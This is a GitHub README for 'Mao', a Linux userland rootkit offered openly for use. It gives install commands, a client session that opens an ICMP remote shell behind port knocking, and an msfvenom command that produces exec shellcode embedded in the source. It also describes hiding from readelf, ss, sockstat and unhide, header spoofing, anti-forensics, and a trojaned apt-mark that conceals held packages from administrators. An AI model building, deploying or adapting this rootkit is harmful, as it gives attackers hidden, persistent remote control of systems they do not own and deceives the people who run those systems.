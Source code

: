 # Mao
A protracted people's rootkit.<br><br>
<img src="https://i.redd.it/4pwkibrp0uq91.jpg" />

Another x86_64 userland rootkit for Linux. 
---

Like in real life, Mao took a lot of inspiration from <a href="https://github.com/mephistolist/hoxha">Hoxha</a>. While his style differed from <a href="https://github.com/mephistolist/tito">Tito</a>, they both integrated elements of Capitalism into their economies. At the same time, Mao had his own theory and legacy. For this reason you may find elements of the two previously mentioned projects, but a great deal of improvements and changes. Better mutation, anti-forensics and better hiding on the system. Again, I will probably hold off on going in-depth on this project until after its publication. 

You will need to install one dependency in order to build this code:

```
sudo apt install libreadline-dev
```

You can then download make and install with the following:

```
git clone https://github.com/mephistolist/Mao.git; cd Mao; make; make install;

```

After this you should have a binary called 'enver', you cannot see in the project directory. However, you can type 'enver' with the ip address of where you have this installed to connect:

```
./enver 127.0.0.1
[*] Initiating knock sequence. Please wait.
[*] ☭ Political power grows out of the barrel of a gun. ☭
[+] ICMP shell connected. Type commands (type 'exit' to quit):
icmp-shell>
```

New Features
---

The enver client taken from <a href="https://github.com/mephistolist/hoxha">Hoxha</a> now has the ability to spoof X-Forwarded-For, X-Originating-IP, X-Remote-IP and X-Remote-Addr headers. In the event someone was to intercept your traffic and you have spoofed your ip via a vpn or proxy, these headers give away your true location, or confuse someone further if also spoofed. 

You will also notice that both enver and hoxha have checks to ensure that the hex value of 0xDEADBEEF is passed. So even after the port-knocking checks and passwords, that will be need to be passed with each packet to ensure the connections stays in place.

Unlike with <a href="https://github.com/mephistolist/hoxha">Hoxha</a>, we will be hidden from readelf, unhide, sockstat, ss and tab completion. Though you may need to exit SSH and reconnect after installing to see the hidding from tab completion worker.

To prevent overwriting of packages that would fool an administrator, we will also install a custom version of apt-mark that will not show packages we have put on hold. 

Like <a href="https://github.com/mephistolist/tito">Tito</a>, we will use an ICMP shell, but the shell with Tito used older functions that could not allow for static linking. The ICMP shell with Mao will allow for static linking.

A lot of new features were added to the sections for mutation and antibugging, 

Devlopment Notes
---

If you make changes to this code, you will need to regenerate its binary data with msfvenom:

```
msfvenom -p linux/x64/exec CMD=/usr/bin/hoxha -f raw -o shellcode.bin -b "\x00\x0a\x0d"
```

Then convert that to base64:

```
cat shellcode.bin | base64 -w0
```

Then replace it with the base64 inside libexec.c and recompile to apply your changes. 

If you want to make changes to the binaries in the 'tools' directory, you can grep for 'Mao' in the source code to see where we have made our edits:

```
# grep -nr Mao references/
references/sockstat.c:299:    /* --- Mao Handler --- */
references/readelf.c:1977:	/* Mao handler */  
references/ss.c:2469:    	/* Mao handler to hide ICMP/ICMPv6 sockets entirely */
references/apt-mark.cc:368:    // Mao - packages to filter out
```

The README file in the 'references' directory will have further documentation.

This has currently been tested on Debian Forky using kernel 6.16.7.
